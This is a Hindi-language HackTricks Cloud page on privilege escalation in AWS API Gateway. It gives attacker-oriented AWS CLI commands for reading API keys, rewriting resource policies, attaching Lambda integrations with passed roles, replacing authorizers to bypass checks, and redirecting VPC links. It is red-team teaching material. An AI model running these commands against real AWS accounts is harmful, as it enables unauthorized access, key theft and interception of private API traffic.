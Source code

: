 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के API कुंजी उत्पन्न कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिविलेज़ एस्केलेशन नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुँच मिल सकती है।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के जनरेट किए गए API कुंजी प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** आप इस तकनीक के साथ प्रिवेस्क नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ, एक API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के संभावित पहुंच का दुरुपयोग कर सकें (जैसे कि एक कमजोर लैम्ब्डा को सक्रिय करना)। 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आप आमतौर पर इस तकनीक के साथ सीधे प्रिवेस्क नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` की अनुमति है, **एक मौजूदा API Gateway REST API में एक नया इंटीग्रेशन जोड़ सकता है जिसमें एक IAM भूमिका संलग्न Lambda फ़ंक्शन है**। फिर हमलावर **Lambda फ़ंक्शन को मनमाने कोड को निष्पादित करने के लिए ट्रिगर कर सकता है और संभावित रूप से IAM भूमिका से संबंधित संसाधनों तक पहुंच प्राप्त कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: लैम्ब्डा फ़ंक्शन के IAM भूमिका से जुड़े संसाधनों तक पहुँच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` की अनुमति है, वह **एक मौजूदा API गेटवे ऑथराइज़र को संशोधित** कर सकता है ताकि सुरक्षा जांचों को बायपास किया जा सके या API अनुरोध किए जाने पर मनमाने कोड को निष्पादित किया जा सके।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: सुरक्षा जांचों को बायपास करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास अनुमति `apigateway:UpdateVpcLink` है, **एक मौजूदा VPC लिंक को एक अलग नेटवर्क लोड बैलेंसर की ओर मोड़ सकता है, संभावित रूप से निजी API ट्रैफ़िक को अनधिकृत या दुर्भावनापूर्ण संसाधनों की ओर पुनर्निर्देशित कर सकता है**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफ़िक का अवरोध या बाधा।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
